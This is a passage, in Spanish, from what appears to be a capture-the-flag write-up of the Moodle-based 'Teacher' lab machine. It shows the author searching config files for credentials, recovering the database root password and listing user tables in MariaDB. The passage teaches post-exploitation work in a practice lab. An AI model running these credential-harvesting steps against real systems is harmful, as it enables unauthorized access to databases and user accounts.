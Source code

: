 Tenemos varios archivos, así que vamos a echarles un ojo y buscar concretamente por la palabra `pass` o `password`:

```bash
www-data@teacher:/var/www/html/moodle$ find \-name *config.php 2>/dev/null | xargs cat | less
...
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);
...
```

Tenemos los datos de acceso a la base de datos, por lo que podriamos entrar y buscar que una tabla que contenga información que nos pueda ayudar a migrar a un usuario del sistema:

```bash
www-data@teacher:/var/www/html/moodle$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 574
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
5 rows in set (0.00 sec)

MariaDB [(none)]>
MariaDB [moodle]> select table_name from information_schema.tables where table_schema = 'moodle' and table_name like '%user%';
+---------------------------------+
| table_name                      |
+---------------------------------+
| mdl_assign_user_flags           |
| mdl_assign_user_mapping         |
| mdl_chat_users                  |
| mdl_competency_usercomp         |
| mdl_competency_usercompcourse   |
| mdl_competency_usercompplan     |
| mdl_competency_userevidence     |
| mdl_competency_userevidencecomp |
| mdl_enrol_lti_lti2_user_result  |
| mdl_enrol_lti_users             |
```